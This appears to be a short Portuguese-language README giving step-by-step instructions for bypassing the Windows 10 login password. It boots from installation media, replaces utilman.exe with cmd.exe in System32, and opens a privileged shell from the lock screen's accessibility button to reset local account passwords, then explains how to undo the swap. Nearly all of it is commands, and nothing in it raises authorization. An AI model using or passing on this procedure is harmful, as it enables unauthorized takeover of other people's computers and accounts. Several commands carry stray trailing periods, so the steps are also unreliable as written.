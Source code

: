# Quebrar senha do Windows 10 com Prompt de Comando.

É necessário ter uma mídia de instalação seja ela pendrive ou CD.

Você vai acessar o ela como se fosse formatar a máquina, mas ao iniciar você clica em avançar e depois em reparar o computador.

Após isso soluções de problemas - Opções avançadas - Prompt de Comando

Abrindo o CMD você vai acessar o diskpart, pelo comando diskpart mesmo, em seguida utiliza o comando list volume para descobrir onde está a pasta do system32, após pode sair utilizando o comando exit para sair apenas do diskpart.

~~~bash
diskpart
list volume
exit
~~~

Agora referenciar a letra do onde está instalado o Windows para acessar os diretórios.

~~~bash
C:
cd windows
cd system32
~~~

Utilizaremos o comando ren e copy para fazer as alterações na facilidade de acesso da tela de bloqueio.

Acessando a pasta system32 pelos comandos informados vamos substituir o utilman com o comando 

~~~bash
ren utilman.exe utilmanoriginal.exe. 
~~~

Agora vamos copiar o cmd e renomear utilizando o seguinte comando

~~~~bash
copy cmd.exe utilman.exe.
~~~~

Para chegar se o passo deu certo vamos usar o comando dir util*, ele deverá mostrar que tem 3 arquivos.

~~~bash
dir util*
~~~

Aqui já pode sair do CMD e reiniciar a máquina.

Quando a máquina iniciar pode apertar no atalho de facilidade de acesso que já vai abrir o CMD na raiz do system32.

Uma vez aberto utilizar o comando

~~~bash
control userpasswords2.
~~~

Vai abrir a tela de usuários locais e você terá acesso para alterar a senha.

Para desfazer o atalho acesso o prompt novamente utilizando a media de instalação e chegar na pasta do system32, uma vez lá vamos deletar a cópia criada do cmd com o comando: del.

~~~bash
del utilman.exe
~~~

Agora vamos renomear o atalho da facilidade de acesso original de volta.

~~~bash
ren utilmanoriginal.exe utilman.exe
~~~
